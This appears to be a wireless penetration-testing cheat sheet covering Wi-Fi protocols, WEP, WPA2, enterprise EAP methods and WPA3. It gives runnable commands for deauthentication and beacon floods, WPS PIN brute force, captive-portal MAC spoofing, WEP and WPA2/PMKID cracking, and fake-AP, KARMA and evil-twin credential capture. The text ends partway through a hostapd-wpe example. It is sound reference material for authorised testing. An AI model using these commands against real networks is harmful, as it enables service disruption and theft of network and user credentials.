# Wireless Penetration Testing

- [Wireless Penetration Testing](#wireless-penetration-testing)
- [WLAN basics](#wlan-basics)
  - [Frequency / bands / Channels](#frequency--bands--channels)
    - [Overlapping channels for 2.4 GHz](#overlapping-channels-for-24-ghz)
    - [Non Overlapping channels for 2.4 GHz (to avoid interferences) with channel bonding](#non-overlapping-channels-for-24-ghz-to-avoid-interferences-with-channel-bonding)
    - [Signal and attenuation 2.4GHz VS 5GHz](#signal-and-attenuation-24ghz-vs-5ghz)
    - [Antennas](#antennas)
    - [Frames](#frames)
      - [Management Frames](#management-frames)
      - [Control Frames](#control-frames)
      - [Data Frames](#data-frames)
    - [Authentication Types](#authentication-types)
      - [Open Authentication](#open-authentication)
      - [Personal Authentication](#personal-authentication)
      - [Enterprise Authentication](#enterprise-authentication)
- [Installation / Configuration](#installation--configuration)
  - [Debug and Wi-Fi ninja](#debug-and-wi-fi-ninja)
    - [Check Wi-Fi card frequency and channel available](#check-wi-fi-card-frequency-and-channel-available)
    - [Restart networking service and WPA supplicant](#restart-networking-service-and-wpa-supplicant)
    - [Changing Wi-Fi card channel](#changing-wi-fi-card-channel)
    - [Changing Wi-Fi card Frequency](#changing-wi-fi-card-frequency)
    - [Monitor mode](#monitor-mode)
    - [Connect using wpa-supplicant](#connect-using-wpa-supplicant)
- [Recon](#recon)
- [Hidden SSID](#hidden-ssid)
    - [With Connected Clients](#with-connected-clients)
    - [Without Connected Clients](#without-connected-clients)
    - [Passive Sniffing](#passive-sniffing)
    - [Preferred Network List (PNL)](#preferred-network-list-pnl)
- [Open Network](#open-network)
  - [Beacon flood attack](#beacon-flood-attack)
  - [Deauthentication attack](#deauthentication-attack)
- [WPS Pin](#wps-pin)
- [Guest Network](#guest-network)
    - [Guest network without password](#guest-network-without-password)
    - [MAC based authentication (Captive Portal Bypass)](#mac-based-authentication-captive-portal-bypass)
    - [DNS Tunneling](#dns-tunneling)
    - [Network Isolation](#network-isolation)
    - [Client isolation/separation](#client-isolationseparation)
    - [Azure AD and conditional Access Policy](#azure-ad-and-conditional-access-policy)
    - [Guest Public IP VS Corporate Public IP](#guest-public-ip-vs-corporate-public-ip)
    - [Fake access point with internet access](#fake-access-point-with-internet-access)
- [WEP](#wep)
    - [Connecting using wpa_supplicant](#connecting-using-wpa_supplicant)
    - [Cracking WEP](#cracking-wep)
    - [Decrypt traffic](#decrypt-traffic)
    - [WEP Cracking alternative](#wep-cracking-alternative)
- [WPA / WPA2](#wpa--wpa2)
    - [TKIP - Temporary Key Integrity Protocol](#tkip---temporary-key-integrity-protocol)
    - [4 way handhsake and encryption keys](#4-way-handhsake-and-encryption-keys)
    - [WPA2-PSK](#wpa2-psk)
    - [WPA2-Deauthentication attack (against client)](#wpa2-deauthentication-attack-against-client)
    - [WPA2-Deauthentication attack (against AP)](#wpa2-deauthentication-attack-against-ap)
    - [Cracking WPA2 handshake](#cracking-wpa2-handshake)
      - [Dictionnary attack](#dictionnary-attack)
      - [Pre Computed PMK](#pre-computed-pmk)
    - [WPA2 App Less Attack](#wpa2-app-less-attack)
    - [KARMA Attack](#karma-attack)
    - [PMKID Attack](#pmkid-attack)
    - [Key Reinstallation Attack (KRACK)](#key-reinstallation-attack-krack)
    - [FRAG Attack](#frag-attack)
- [WPA2 Enterprise](#wpa2-enterprise)
    - [wpa_supplicant and EAP](#wpa_supplicant-and-eap)
  - [EAP Types](#eap-types)
      - [EAP-MD5](#eap-md5)
      - [EAP-PAP](#eap-pap)
      - [EAP-GTC - Generic Token Card](#eap-gtc---generic-token-card)
      - [EAP-CHAP - Challenge Handshake Authentication Protocol](#eap-chap---challenge-handshake-authentication-protocol)
      - [EAP-AKA](#eap-aka)
      - [EAP-MSCHAPv2 - Microsoft Challenge Authentication Protocol version 2](#eap-mschapv2---microsoft-challenge-authentication-protocol-version-2)
      - [EAP-PWD](#eap-pwd)
      - [EAP-NOOB](#eap-noob)
      - [LEAP - Light Weight EAP](#leap---light-weight-eap)
      - [EAP-FAST - Flexible Authentication by Secure Tunneling](#eap-fast---flexible-authentication-by-secure-tunneling)
  - [EAP Encapsulation (Tunnel)](#eap-encapsulation-tunnel)
      - [EAP-PEAP](#eap-peap)
      - [EAP-TLS - Transport Layer Security](#eap-tls---transport-layer-security)
      - [EAP-TTLS - Tunneled TLS](#eap-ttls---tunneled-tls)
    - [Identity Privacy misconfiguration](#identity-privacy-misconfiguration)
    - [WPA2-EAP - Password spray attack](#wpa2-eap---password-spray-attack)
    - [WPA2-EAP Evil Twin Attack](#wpa2-eap-evil-twin-attack)
      - [Hostapd-WPE (Previously FreeRadius WPE)](#hostapd-wpe-previously-freeradius-wpe)
      - [Eaphammer](#eaphammer)
      - [WPA2-EAP Relay](#wpa2-eap-relay)
- [WPA3](#wpa3)
    - [OWE : Opportunistic Wireless Encryption](#owe--opportunistic-wireless-encryption)
    - [ZKP - Zero Knowledge Proof](#zkp---zero-knowledge-proof)
    - [Use WPA3-SAE authentication on Linux](#use-wpa3-sae-authentication-on-linux)
    - [WPA3-SAE](#wpa3-sae)
    - [Attacking WPA3](#attacking-wpa3)
      - [WPA3-Transition Downgrade Attack](#wpa3-transition-downgrade-attack)
      - [Security Group Downgrade Attack](#security-group-downgrade-attack)
      - [WPA3-SAE timing or cache password paritioning](#wpa3-sae-timing-or-cache-password-paritioning)
      - [Timing attack using weak group](#timing-attack-using-weak-group)
      - [Denial of Service against WPA3-SAE](#denial-of-service-against-wpa3-sae)
      - [WPA3-EAP - Invalid curve attack](#wpa3-eap---invalid-curve-attack)
      - [WPA3-EAP - Reflection attack](#wpa3-eap---reflection-attack)
- [Wi-Fi Hacking Mind Map](#wi-fi-hacking-mind-map)
- [Other Attacks](#other-attacks)
    - [Fake Captive Portal](#fake-captive-portal)
    - [Fake Open Access Point](#fake-open-access-point)
- [To be checked - Validated during an engagement](#to-be-checked---validated-during-an-engagement)
    - [General](#general)
    - [Open Authentication](#open-authentication-1)
    - [Personal Authentication](#personal-authentication-1)
    - [Enterprise](#enterprise)
- [Resources](#resources)
      - [WPA3 - DragonFly](#wpa3---dragonfly)
      - [Dragonblood: Analyzing the Dragonfly Handshake of WPA3 and EAP-pwd](#dragonblood-analyzing-the-dragonfly-handshake-of-wpa3-and-eap-pwd)
      - [WEP Cloaking](#wep-cloaking)
      - [4-Way Handshake](#4-way-handshake)
      - [PTK Derivation](#ptk-derivation)
      - [Pi-PwnBox Rogue AP](#pi-pwnbox-rogue-ap)
      - [OpenWRT supported devices](#openwrt-supported-devices)
      - [OpenWRT Compatibles routers](#openwrt-compatibles-routers)
      - [SSID Oracle Attack on Undisclosed Wi-Fi Preferred Network Lists](#ssid-oracle-attack-on-undisclosed-wi-fi-preferred-network-lists)
      - [WEP attack fragmentation - chopchop](#wep-attack-fragmentation---chopchop)
- [Tools](#tools)
- [Defenses](#defenses)
      - [KARMA Attack detection](#karma-attack-detection)

# WLAN basics
## Frequency / bands / Channels
- 2.4 GHz : 11 Channels (14 total, e.g: In Japan)
  - 2.4 GHz = 802.11 b / g / n / ax
- 5 GHz : 45 Channels
  - 5 GHz = 802.11 a / h / j / n / ac / ax
 


### Overlapping channels for 2.4 GHz  

 
### Non Overlapping channels for 2.4 GHz (to avoid interferences) with channel bonding  


### Signal and attenuation 2.4GHz VS 5GHz



--> The *higher* the frequency of a wireless signal the *shorter* the range.  
--> 2.4GHz (802.11g) covers a substantial larger range than that of 5.0GHz (802.11a)  
--> The higher frequency signals of 5.0GHz do not penetrate solid objects nearly as well as do 2.4GHz signals.  
--> The smaller wavelength of 5.0GHz allows a higher absorption rate by solid objects


### Antennas



### Frames

#### Management Frames
- https://mrncciew.com/2014/09/29/cwap-802-11-mgmt-frame-types/

WireShark filter: ```(wlan.fc.type == 0)&&(wlan.fc.type_subtype == 0x0c)```



- [**Beacon Frame**](https://mrncciew.com/2014/10/08/802-11-mgmt-beacon-frame/): It contains all the information about the network. Beacon frames are transmitted periodically, they serve to announce the presence of a wireless LAN and to synchronise the members of the service set. Beacon frames are transmitted by the access point (AP) in an infrastructure basic service set (BSS).



- [**Probe Request / Response**](https://mrncciew.com/2014/10/27/cwap-802-11-probe-requestresponse/): Client looking for specific SSID or wildcard SSID which means any SSID available. Probe Requests are send by the client on broadcast. 



#### Control Frames
- https://mrncciew.com/2014/09/27/cwap-mac-header-frame-control/

#### Data Frames
- https://mrncciew.com/2014/10/13/cwap-802-11-data-frame-types/

### Authentication Types
#### Open Authentication
- Open
- OWE

#### Personal Authentication
- WEP
- WPA/WPA2-PSK
- WPA3-SAE

#### Enterprise Authentication
- WPA/WPA2/WPA3-EAP
  - Methods:
    1. EAP-GTC
    2. EAP-MD5
    3. EAP-PAP
    4. EAP-CHAP
    5. EAP-MSCHAP
    6. EAP-MSCHAPv2
    7. EAP-TLS
    8. EAP-AKA
    9. EAP-PWD
    10. EAP-SIM
    11. EAP-NOOB

# Installation / Configuration
It is *highly recommanded* to use a [Kali Linux OS](https://www.kali.org/get-kali/#kali-installer-images) with bare metal install regarding dependencies and current research on WPA3 or tool for WPA2-Enterprise.

Install the driver for ALPHA card.
https://github.com/aircrack-ng/rtl8812au

## Debug and Wi-Fi ninja 
### Check Wi-Fi card frequency and channel available
```
┌──(lutzenfried㉿xec)-[~/]
└─$ iwlist wlan1 channel    
wlan1     32 channels in total; available frequencies :
          Channel 01 : 2.412 GHz
          Channel 02 : 2.417 GHz
          Channel 03 : 2.422 GHz
          Channel 04 : 2.427 GHz
          Channel 05 : 2.432 GHz
          Channel 06 : 2.437 GHz
          Channel 07 : 2.442 GHz
          Channel 08 : 2.447 GHz
          Channel 09 : 2.452 GHz
          Channel 10 : 2.457 GHz
          Channel 11 : 2.462 GHz
          Channel 12 : 2.467 GHz
          Channel 13 : 2.472 GHz
          Channel 36 : 5.18 GHz
          Channel 40 : 5.2 GHz
          Channel 44 : 5.22 GHz
          Channel 48 : 5.24 GHz
          Channel 52 : 5.26 GHz
          Channel 56 : 5.28 GHz
          Channel 60 : 5.3 GHz
          Channel 64 : 5.32 GHz
          Channel 100 : 5.5 GHz
          Channel 104 : 5.52 GHz
          Channel 108 : 5.54 GHz
          Channel 112 : 5.56 GHz
          Channel 116 : 5.58 GHz
          Channel 120 : 5.6 GHz
          Channel 124 : 5.62 GHz
          Channel 128 : 5.64 GHz
          Channel 132 : 5.66 GHz
          Channel 136 : 5.68 GHz
          Channel 140 : 5.7 GHz
          Current Frequency:2.412 GHz (Channel 1)
```

### Restart networking service and WPA supplicant
```
sudo service networking restart
sudo systemctl restart networking.service 
sudo systemctl restart wpa_supplicant.service
```

### Changing Wi-Fi card channel
```
sudo ifconfig wlan1 down
sudo iwconfig wlan1 channel 64
sudo ifconfig wlan1 up
```

### Changing Wi-Fi card Frequency
```
sudo ifconfig wlan1 down
sudo iwconfig wlan1 freq "5.52G"
sudo ifconfig wlan1 up
```

### Monitor mode
```
airmon-ng start wlan0
```

```
ifconfig wlan0 down
iw dev wlan0 set monitor none
ifconfig wlan0 up
```

### Connect using wpa-supplicant

wpa_supplicant -D nl80211 -i wlan1 -c psk.conf

*psk.conf*
```
network={
    ssid="CompanyWiFi"
    psk="SuperPassword"
    proto=RSN
    key_mgmt=WPA-PSK
    pairwise=CCMP TKIP
    group=CCMP TKIP
}
```



# Recon
```
sudo airodump-ng -i wlan0 -w reconfile --output-format csv
```

--> Within airodump-ng you can press "**a**" key to display ap only / sta only / ap + sta

Scan 5Ghz using *a* band
```
sudo airodump-ng --band a -i wlan1
```

# Hidden SSID
### With Connected Clients
1. Run airodump-ng on the same channel as of SSID 
```
sudo airodump-ng wlan1 -c 11
```
2. Send deauth packets to clients
3. Client will send probe requests and AP will respond with probe response disclosing the SSID name

### Without Connected Clients
1. Run dictionary attack
2. Popular [SSID](https://github.com/ytisf/mdk3_6.1/blob/master/useful_files/common-ssids.txt) [dictionary](https://gist.github.com/jgamblin/da795e571fb5f91f9e86a27f2c2f626f) from internet or create one
3. Run automated script to try to connect to each SSID
   
### Passive Sniffing
- Wireless interface into *monitor* mode (**airmon-ng**, **iw** utility)
--> Wireless card can only be on *1 channel* at a time.  

**Tools**: Wireshark, tshark, termshark, tcpdump, airodump-ng, horst
- [Wireshark WLAN filters cheat-sheet](https://semfionetworks.com/wp-content/uploads/2021/04/wireshark_802.11_filters_-_reference_sheet.pdf)

### Preferred Network List (PNL)
The PNL or Preferred Network List is a list of Wi-Fi network names (SSIDs) your device automatically trusts. (PNL is generated from the networks you have connected to over time)

1. Sniff the PNL through probe request emitted by STA (Station/client)
2. Create fake access point with same SSID (Wi-Fi routeur, HostAPD, WiFiPhisher, BetterCap, EAPHammer, airbase-ng, [nodogsplash](https://www.sevenlayers.com/index.php/304-evil-captive-portal))
3. Redirect the connected STA to phishing page / Attack the client (windows client)



Hostapd config file for open authentication Wi-Fi network
```
interface=wlan1
driver=nl80211
ssid=GuestCorpWifi
bssid=A5:C4:0D:6A:75:3A
channel=6
```

Hostapd config file for WPA2-PSK authentication
```
interface=wlan1
driver=nl80211
ssid=dex-net
wpa=2
wpa_passphrase=password
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
channel=1

bss=wlan1_0
ssid=dex-network
wpa=2
wpa_passphrase=Password1
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
channel=1
```

Launch fake open authentication Wi-Fi network
```
hostapd open.conf
```

--> You can also use WiFi PineApple to setup a captive portal using the "Evil Portal" infusion.  
- https://wiki.wifipineapple.com/legacy/#!captive_portal.md
- https://github.com/kleo/evilportals

# Open Network

## Beacon flood attack
Beacon flood attack is more a nuisance attack linked to 802.11 protocol weaknesses.
- https://github.com/aircrack-ng/mdk4

You can randomly create SSID or give specific wordlist for SSID names.
```
mdk4 wlan1 b -a -g -f ssid_names.txt
```



## Deauthentication attack
Deauthentication attack is possible because within WPA2 (PSK and Enterprise (MGT)) the management frames are not protected. Its also more of a nuisance attack but can be usefull (comparing to beacon flood) to deauthenticate an STA (station/client) to intercept WPA2-handshake or redirect STA (station/client) to authenticate against your fake **Radius** server (WPA2-Enterprise).  

--> Deauthentication can also be usefull when bypassing Captive Portal, to force client to reconnect and get their MAC address.  

Deauth using aireplay-ng (-c : client is optional)
```
aireplay-ng -0 100 -a BSSID -c STA/CLIENT wlan1
```

# WPS Pin

Checking within a capture the WLAN with WPS enable
```
wps.wifi_protected_setup_state==2
```

Install reaver
```
sudo apt install reaver
```

Identify device using WPS
```
sudo wash -i wlx00c0ca996340
```

Attacking specific BSSID
```
sudo reaver -i wlx00c0ca996340 -c 1 -b C0:3C:04:02:16:48 -vv
```

# Guest Network

### Guest network without password
MAC based restriction or captive portal are bypassable security solution but providing Guest network without password can be worst.

1. Verify the client connected within the guest network can see each other ()
2. Verify Guest network isolation with corporate Wi-Fi, or protected Wi-Fi (WPA/WPA2-PSK/WPA3/WPA2-Enterprise)
3. Verify Guest network isolation with internal corporate network IP range
4. Check if the public source IP from Guest network is the same as from internal corporate or corporate Wi-Fi with authentication
5. Check default creds on network components
6. Check for vulnerabilities (RCE,...) on network components

--> If client isolation is not in place, check to password spray on Windows hosts or attack them (MS17-010, EternalBlue...)

### MAC based authentication (Captive Portal Bypass)
1. You **first** need to authenticate on the Open Wifi. You will then be redirected to the captive portal.
2. At this time you will need to find a connected STA/Client (you can send **deauth** to a BSSID hosting the open network to increase the chance of getting a valid MAC address from connected STA/Client)
3. MAC change you wlan interface MAC address
  
```
ifconfig wlan1 down
macchanger -m D2:E9:6A:D3:B3:51 wlan1
ifconfig wlan1 up
```

### DNS Tunneling
- [DNS tunneling for Internet Access](https://github.com/ricardojoserf/wifi-pentesting-guide#213-bypass-2-dns-tunnelling)

### Network Isolation
- Validate the network isolation/segmentation between guest wi-fi, captive portal based authentication wi-fi and internal corporate network or Wi-Fi corporate network.

### Client isolation/separation
- Validate the isolation between clients connected on the Open Network.

### Azure AD and conditional Access Policy
Sometimes it is possible to bypass conditonal access policy for example regarding *MFA* which can be based on *Source IP Adress* or *Geolocation* from the *Guest Network*.  

This represents a vulnerability and could give to an attacker the ability to get a first foothold.

### Guest Public IP VS Corporate Public IP
It is important to have a different exit public IP address for any guest regarding the internal network IP.  

--> Validate the public IP address from any guest network and internal network is different.  

### Fake access point with internet access


# WEP
- Wired Equivalent Privacy
- Uses Rivest Cipher 4 (RC4) Stream cipher
- **40** Bit or **104** Bit shared key + **24** Bit IV concatenated to the Shared Key
  --> **64** or **128** Bit encryption key




### Connecting using wpa_supplicant

```
wpa_supplicant -i wlan0 -c wep.conf
wpa_supplicant -B -i wlan0 -c wep.conf
```

wep.conf
```
network={
    scan_ssid=1
    ssid="WepCorpo"
    key_mgmt=NONE
    wep_key0="Password123"
    wp_tx_keyidx=0
}
```

### Cracking WEP
- 250,000 IVs for cracking 64 bit WEP Key
- 1,500,000 IVs for cracking 128-bit WEP Key

--> You can do passive IV capture (but it will take time)  
OR
--> Inject traffic to force more packets and more IVs (Replay Attack) 
- Capture ARP packet and send to AP, it will send reply.

```
sudo airodump-ng -i wlan1 --bssid 14:D6:4D:26:73:96 -w wep
sudo aireplay-ng -3 -b 14:D6:4D:26:73:96 -h 66:B9:B8:1D:EC:66 wlan1
sudo aircrack-ng wep-01.ivs
```


### Decrypt traffic
Once the key is retrieve attacker can decrypt traffic for other devices.  

- WireShark (GUI)
- Airdecap-ng (CLI)

### WEP Cracking alternative
In case you don't have enought IVs to recover the key you can use dictionnary attack.  

Validate the current capture file
```
airodump-ng -r WEP-capture.cap
```

Creating the the hex wordlist from the password wordlist or use this [python script](https://gist.githubusercontent.com/tbhaxor/170894df0d43fd23eae49b0b20442c27/raw/3652d81819f13de7426167cf7390f051f5b30a4f/wep_decrypt.py)
```
for i in $(cat 1000000-password-seclists.txt); do echo $i | od -A n -t x1 | sed 's/ *//g'; done >> hex_wordlist.txt
python3 crack.py 1000000-password-seclists.txt WEP-Advanced.cap 00:21:91:D2:8E:25
```

Recover and decrypt traffic using hex(password) dictionnary and [airdecap-ng](https://www.aircrack-ng.org/doku.php?id=airdecap-ng)
```
for hex in $(cat hex_wordlist.txt); do airdecap-ng -w $hex WEP-capture.cap; done
```

# WPA / WPA2
- WPA TKIP (Based on WEP) - Intermediate solution by Wi-Fi Alliance / Hardware change not required
- WPA2 CCMP (Based on AES)

### TKIP - Temporary Key Integrity Protocol

### 4 way handhsake and encryption keys

- PassPhrase (password)
- PSK (Pre shared key)
- PMK (Pairwise Master Key)
- PTK (Pairwise Transient Key)
- GTK (Group Temporal Key)
- GMK (Group Master Key)

--> In PSK authentication, the PMK is the same thing as PSK. *PMK=PSK*.

WPA/WPA2 use **PBKDF2** (Password Based Key Derivation Function).    

*PMK/PSK* = PBKDF2(PassPhrase, SSID, ssidLen, 4096, 256)  
--> 4096 = Number of iterations or times the passphrase is hashed  
--> 256 = Intended Key Length of PSK in bits 

*PTK* = PRF(PMK, ANonce, SNonce, Authenticator MAC, Supplicant MAC)  
- PMK - Pairwise Master Key
- ANonce - Random string generated by Access Point (AP)
- SNonce - Random string generated by client/station (STA)
- Authentication MAC - Access Point  MAC
- Supplicant MAC - Client/station MAC

--> PRF is a pseudo-random function which is applied to all the input  
--> *PTK is separate for every user*

*GTK* = Generated by Access Point and sent to client.  
- Same for all clients Connected to a BSSID
- USed for broadcast, multicast messages






### WPA2-PSK
One of the most known technic to attack WPA2-PSK (Pre Shared Key) is to deauthenticate clients and capture authentication handshake to further brute force it and try to recover clear text password.



### WPA2-Deauthentication attack (against client) 

```
sudo aireplay-ng --deauth 10 -a <BSSID> -c <CLIENT_MAC> wlan1
sudo aireplay-ng --deauth 10 -a 00:14:6C:7E:40:80 -c 00:0F:B5:AE:CE:9D wlan1
```

### WPA2-Deauthentication attack (against AP)
If the ```–c``` (CLIENT_MAC) parameter is not specified when you run your deauth attack with aireplay-ng, all clients connected to the AP will be disconnected via deauthentication broadcast packet, but it is more effective to target a client individually.  

```
sudo aireplay-ng --deauth 10 -a <BSSID> wlan1
sudo aireplay-ng --deauth 10 -a 00:14:6C:7E:40:80 wlan1
```

#####Capture WPA2 Handshake
In order to attack and crack WPA2 handshake you do not need to get full 4 way handshake. (Filter in Wireshark: *eapol*)  
--> Airodump-ng will inform you when you capture a valid handshake.  

You will need the minimal following packets/message from 4 way handshake:
- ANonce (Message 1 and Message 3)
- SNonce (Message 2)

1. Packet 1 and 2
2. Packet 2 and 3

```
sudo airodump-ng wlan1 -c 11 --bssid 00:1C:10:00:00:00 -w ./capturePSK
```

### Cracking WPA2 handshake
#### Dictionnary attack

Converting **.CAP** capture with handshake to **hccapx** hashcat format
```
sudo apt install git gcc
git clone https://github.com/hashcat/hashcat-utils.git
cd hashcat-utils/src/
gcc cap2hccapx.c -o cap2hccapx.bin
./cap2hccapx.bin wpa_handshake.cap handshake.hccapx
```

Dictionnary attack using hashcat
```
hashcat.exe -m 22000 handshake.hccapx wordlists/rockyou.txt
```

#### Pre Computed PMK
Pre computed PMK (Because PBKDF2 function is time consuming to proceed). You will still need to capture 4 Way handshake for SNonce, ANonce, AP MAC and Client MAC.
  - Require SSID and Passphrase (dictionnary)

```
genpmk -f wordlistPassphrase.txt -s CorpoWifi -d precomputed_PMK
cowpatty -d precomputed_PMK -s CorpoWifi -f wordlistPassphrase.txt
```


### WPA2 App Less Attack
You will need to have a probing client within the vicinity or range, create a fake access point, wait the client for connect and capture the 4-way handshake.

```
hostapd wpa-psk.conf
```

wpa1-psk.conf
```
interface=wlan1
driver=nl80211
ssid=CorpoWifi
bssid=00:1C:10:00:00:00
wpa=2
wpa_passphrase=wedontcare
wpa_key_mgmt=WPA-PSK
rsn_pairwise=TKIP
channel=1
```

wpa2-psk.conf
```
interface=wlan1
driver=nl80211
ssid=CorpoWifi
bssid=00:1C:10:00:00:00
wpa=2
wpa_passphrase=wedontcare
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
channel=1
```

### KARMA Attack
Attacker will look for client probe requests and immediately change the SSID it is broadcasting to match the probe request of the client. Responding to everyone.  

karma.conf
```
interface=wlan1
ssid=nothing
channel=6
hw_mode=g
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
auth_algs=3
ieee8021x=1
eapol_key_index_workaround=0
eap_server=1
eap_user_file=/root/certs/hostapd.eap_user
ca_cert=/root/certs/server.pem
server_cert=/root/certs/server.pem
private_key=/root/certs/server.key
private_key_passwd=
dh_file=/root/certs/dhparam.pem
mana_wpe=1
mana_eapsuccess=1
enable_mana=1
```

### PMKID Attack
Traditional handshake capture and brute force methods wait for client to de-authenticate and re-authenticate while PMKID attack doesn’t. Direct PMKID is captured in this attack and then cracked.  

Many routers cache PMKID of exchange process in a collection of information PMKSA, so that the next time client de and re-authenticates 4-way handshake won’t be done again and router would directly ask the client for PMKSA, verify it and he would be re-associate it back with an access point.  

PMKID is a field in the RSN IE frame (Robust Security Network Information Element). RSN IE is an optional frame found in routers.  

```
apt install hcxtools
hcxdumptool -o PMKID_results -i wlan0mon
hcxpcaptool -z hashPMKID PMKID_results
```

Cracking PMKID hashes using hashcat (newer version of hashcat -m 22000)
```
hashcat -a 0 -m 16800 pmkid.txt ../../wordlists/wordlistsOnex/
```

### Key Reinstallation Attack (KRACK)
- https://www.krackattacks.com/
KRACK attack or Key Reinstallation Attack. 

**Toolset**: 
- https://github.com/vanhoefm/krackattacks-scripts  
- https://github.com/vanhoefm/krackattacks-poc-zerokey

When client joins a network it executes the 4-way handshake to negotiate a fresh encryption key (PTK).  
--> The key will be install after receiving the message **3** of the ***4-way** handshake.  
--> In case message 3 is lost or dropped, the Access Point will retransmit **message 3** if it did not receive an appropriate response as aknowledgment  
--> As a result client may receive **message 3** multiple time, each time it will reinstall the same encryption key and reset the incremental transmit packet number (nonce)

```
sudo ./krack-all-zero-tk.py wlan0 wlan1 CorpoWPA2 --target 00:1C:10:00:00:00
```

### FRAG Attack
- https://www.fragattacks.com/

# WPA2 Enterprise

- EAP : Extended Authentication Protocol
- RFC : https://www.rfc-editor.org/rfc/rfc5247.html
- 802.1X : EAP adopted by 802.11



### wpa_supplicant and EAP

Authenticate to WPA EAP network using wpa_supplicant
```
wpa_supplicant -i wlan0 -c ./wpa_supplicant.conf
```

wpa_supplicant.conf
```
network={
  ssid="YOUR_SSID"
  scan_ssid=1
  key_mgmt=WPA-EAP
  identity="YOUR_USERNAME"
  password="YOUR_PASSWORD"
  eap=PEAP
  phase1="peaplabel=0"
  phase2="auth=MSCHAPV2"
}
```

## EAP Types
EAP is an authentication framework that defines the transport and usage of identity credentials. EAP encapsulates the usernames, passwords, certificates, tokens, OTPs, etc. that a client is sending for purposes of authentication.  



#### EAP-MD5
- Non tunnel EAP method

1. Radius send 16 bytes MD5 Challenge
2. Client send MD5 hash of 
   1. Responde ID
   2. Password
   3. Challenge

--> Attacker can eavesdrop and sniff MD5 challenge. (vulnerable to dictionnary attack)  
--> No mutual authentication: Server is validating the client, but the client does not authenticate the Server (i.e.: does not check to see if it should trust the server).  
- https://github.com/joswr1ght/eapmd5pass
```
./eapmd5pass -w dict -r eapmd5-sample.dump 
```



#### EAP-PAP
- Non tunnel EAP method
EAP-PAP is the most insecure 802.1x Authentication Protocol because credentials are sent over the air in plaintext.  
- https://datatracker.ietf.org/doc/html/rfc1334
  
#### EAP-GTC - Generic Token Card
- Non tunnel EAP method
EAP method created by cisco. 
--> [EAP-GTC](https://www.rfc-editor.org/rfc/rfc3748) carries a text challenge from the authentication server and a reply generated by a security token. Exchange of clear-text authentication credentials across the network. EAP-GTC method is intended to be used with Token Cards supporting challenge/response verification.  

#### EAP-CHAP - Challenge Handshake Authentication Protocol
- Non tunnel EAP method
- https://datatracker.ietf.org/doc/html/rfc1994

3 way handshake process:
1. The authentication server issues a challenge (Nonce)
2. The users's device sends the hashed Nonce with the user password
3. The authentication server evaluate the hashed Nonce

#### EAP-AKA
- Non tunnel EAP method
EAP Authentication and Key Agreement. ([RFC 4187](https://datatracker.ietf.org/doc/html/rfc4187))

#### EAP-MSCHAPv2 - Microsoft Challenge Authentication Protocol version 2
- Non tunnel EAP method
  
Same as CHAP but Microsoft Proprietary system.  
- Mutual authentication
- Key agreement mechanism for setting up an encrypted session based on the authentication handshake.

- DefCon 20 : Moxie MarlinSpike : https://www.youtube.com/watch?v=gkPvZDcrLFk
- Hacktivity : Vivek Ramachandran : https://youtu.be/Ra0dGPYScLQ

--> Packet Capture + asleap = Dictionnary attack  


#### EAP-PWD
- Non tunnel EAP method
EAP Password, EAP method which uses a shared password for authentication. 



#### EAP-NOOB
- Non tunnel EAP method
- https://datatracker.ietf.org/doc/draft-aura-eap-noob/?include_text=1

Nimble out-of-band authentication for EAP, generic bootstrapping solution for devices which have no pre-configured authentication credentials and which are not yet registered on any server. (IoT, Gadgets, Toys).  

Authentication for this EAP method is based on a user-assisted out-of-band (OOB) channel between the server and peer.  
- QR code
- NFC tags
- Audio

--> [Misbinding](https://arxiv.org/pdf/1902.07550.pdf) [attack](https://www.sciencedirect.com/science/article/pii/S2214212619307215)

#### LEAP - Light Weight EAP
Cisco proprietary EAP method based on modified version of MSCHAP. User credentials not strongly protected.
- Tool: [asleap](https://github.com/joswr1ght/asleap)

  1. STA requests authentication with 802.1X start message
  2. AP issues a random 8-byte challenge
  3. STA encrypts the 8-byte challenge 3 times, using the NT hash of their password as seed material. The STA then joins the 3 DES outputs as a single 24-byte response.
  4. AP issues a success or failure message.
  5. STA issues a 8-byte challenge.
  6. AP responds with a 24-byte response.
  7. STA is able to send data to the distribution system

#### EAP-FAST - Flexible Authentication by Secure Tunneling
- Non tunnel EAP method

Instead of using a certificate to achieve mutual authentication. EAP-FAST authenticates by means of a PAC (Protected Access Credential) which can be managed dynamically by the authentication server. The PAC can be provisioned (distributed one time) to the client either manually or automatically.  

Manual provisioning is delivery to the client via disk or a secured network distribution method. Automatic provisioning is an in-band, over the air, distribution.  

## EAP Encapsulation (Tunnel)
Hide sensitive/vulnerable part.  

#### EAP-PEAP
PEAP - Protected EAP. 
- https://sensepost.com/blog/2019/understanding-peap-in-depth/

--> Tunnel MSCHAPv2 or other within a PEAP tunnel (TLS tunnel) 
--> Mostly used with MSCHAPv2 authentication.   

- Use Server Side Certificate for validation of the authentication server.  

#### EAP-TLS - Transport Layer Security
EAP-TLS is still considered one of the most secure EAP standards available.  
--> EAP-TLS require mutual authentication using client-side X.509 certificates.  



#### EAP-TTLS - Tunneled TLS
EAP-Tunneled Transport Layer Security.  
Very Similar to EAP-PEAP. (But as option to use client side certificate)

1. Server authenticates with certificate
2. Client can optionally use Certificate as well

Inner authentication:
- PAP
- CHAP
- MSCHAP
- MSCHAPV2

### Identity Privacy misconfiguration
- Absence of Identity Privacy
During 802.1x EAP negotiations, client send its identity to the authenticator before engaging in the RADIUS authentication process.  
--> EAPOL frames within the first authentication phase are not encrypted  
--> An attacker can see the AD usernames in plaintext  


### WPA2-EAP - Password spray attack
- https://mikeallen.org/blog/2016-10-06-breaking-into-wpa-enterprise-networks-with-air-hammer/

### WPA2-EAP Evil Twin Attack
#### Hostapd-WPE (Previously FreeRadius WPE)
- https://github.com/OpenSecurityResearch/hostapd-wpe
- https://www.c0d3xpl0it.com/2017/03/enterprise-wifi-hacking-with-hostapd-wpe.html
- https://github.com/WJDigby/apd_launchpad/blob/master/apd_launchpad.py (fake certficat generation and configuration file)

Support the following EAP types for impersonation:
- EAP-FAST/MSCHAPv2 (Phase 0)
- PEAP/MSCHAPv2
- EAP-TTLS/MSCHAPv2
- EAP-TTLS/MSCHAP
- EAP-TTLS/CHAP
- EAP-TTLS/PAP
  
```
apt install hostadp-wpe
ifconfig wlan1 down
hostapd-wpe ./evilhostapd.conf

username: jdoe
    challenge: bc:87:6c:48:37:d3:92:6e
